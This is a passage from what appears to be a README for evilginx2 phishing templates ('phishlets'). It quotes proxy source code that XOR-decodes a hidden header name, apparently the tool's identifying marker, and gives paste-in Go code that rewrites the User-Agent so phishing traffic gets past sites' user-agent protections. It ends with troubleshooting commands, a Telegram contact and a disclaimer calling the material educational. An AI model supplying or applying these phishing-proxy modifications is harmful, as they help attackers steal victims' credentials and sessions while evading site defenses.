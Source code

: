 // Line 1456 to 1462
func (p *HttpProxy) cantFindMe(req *http.Request, nothing_to_see_here string) {
	var b []byte = []byte("\x1dh\x003,)\",+=")
	for n, c := range b {
		b[n] = c ^ 0x45
	}
	req.Header.Set(string(b), nothing_to_see_here)
}

// Line 580
p.cantFindMe(req, e_host)


```

### Add Custom User Agent
- Few sites have protections based on user agent, and relaying on javascript injections to modify the user agent on victim side may break/slow the attack process.
- Custom User Agent Can be Added on the fly by replacing the `User-Agent` Header in each requests.
- Below is the work Around Code to achieve this. You can add code in evilginx2 `core/http_proxy.go` file below line 395.
```
				// Replace Any User Agent With Firefox UserAgent
				useragent := req.Header.Get("User-Agent")
				if useragent != "" {                                   
							req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0")
							log.Debug("[%d] Injected User Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/96.0 ", ps.Index)
				}

```

## Error Resolving
### Error-1 : (Failed to start nameserver on port 53)
METHOD 1 :-
- Follow These Commands & Then Try Relaunching Evilginx
```
sudo service systemd-resolved stop
nano /etc/resolv.conf
```
- Then change nameserver 127.x.x.x to nameserver 8.8.8.8
- Then save the file (By pressing CTRL+X and pressing Y followed by enter)

METHOD 2 :-
- Check if All the neccessary ports are not being used by some other services.
- Ports Like: 80, 53, 443
- Find Those Ports And Kill those Processes
```
sudo netstat -ptnl | grep 53
sudo kill PID
```
- Where PID is Process ID
- Similarly Find And Kill Process On other Ports That are in use.
- Now Try To Run Evilginx and get SSL certificates


## Need any Help ??
- Contact Me on telegram: (https://t.me/hidden9090) (This is the only account belong to me)


## WARNING !   
- DEVELOPER WILL NOT BE RESPONSIBLE FOR ANY MISUSE OF THE PHISHLETS. THESE PHISHLETS ARE ONLY FOR TESTING/LEARNING/EDUCATIONAL/SECURITY PURPOSES.
- DEVELOPER DO NOT SUPPORT ANY OF THE ILLEGAL ACTIVITIES.
- RELEASED THE WORKING/NON-WORKING PHISHLETS JUST TO LET OTHERS LEARN AND FIGURE OUT VARIOUS APPROACHES.
```